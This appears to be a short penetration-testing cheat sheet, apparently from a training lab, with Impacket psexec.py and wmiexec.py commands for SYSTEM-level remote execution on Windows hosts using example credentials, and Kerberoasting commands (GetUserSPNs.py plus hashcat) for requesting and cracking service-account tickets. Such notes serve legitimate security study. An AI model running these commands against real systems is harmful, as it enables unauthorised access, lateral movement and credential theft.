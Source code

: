 ### PSexec.py
The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Will be dropped in the SYSTEM context
```
psexec.py domain.local/username:'password'@host.ip
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### WMIexec.py
Stealthier approach than PSexec. Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation.
```
wmiexec.py domain.local/username:'password'@host.ip
wmixec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### Kerberoast with Linux
```
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request
GetUserSPNs.py -dc-ip <172.16.5.5> <domain.LOCAL>/<user> -request-user <any-user> -outputfile <text-file-name>
hashcat -m 13100 <text-file-name> /usr/share/wordlists/rockyou.txt 
```
